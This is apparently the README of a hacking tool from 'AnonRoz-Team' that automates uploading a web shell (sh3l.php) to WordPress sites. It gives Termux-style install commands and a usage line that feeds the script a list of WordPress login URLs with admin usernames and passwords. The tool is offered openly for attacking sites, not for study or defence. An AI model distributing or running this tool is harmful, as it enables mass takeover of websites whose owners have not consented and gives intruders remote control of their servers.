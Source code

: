 # Wordpress Auto Upload Shell
![IMG_20201012_175906](https://user-images.githubusercontent.com/65480013/96328235-d3261c00-106a-11eb-8052-89198216154d.jpg)
# Author
```
Nickname : D4RKSH4D0WS
Team : AnonRoz-Team
```

# Requirements
```
requests bs4
```

# Installation
```
$ pkg install python2
$ pip2 install requests bs4
$ git clone https://github.com/AnonRoz-Team/wp_auto_upshell
$ cd wp_auto_upshell
$ python2 wp_auto.py list_web.txt sh3l.php
Isi list_web.txt seperti ini 
https://web.com/wp-login.php|admin|password
```
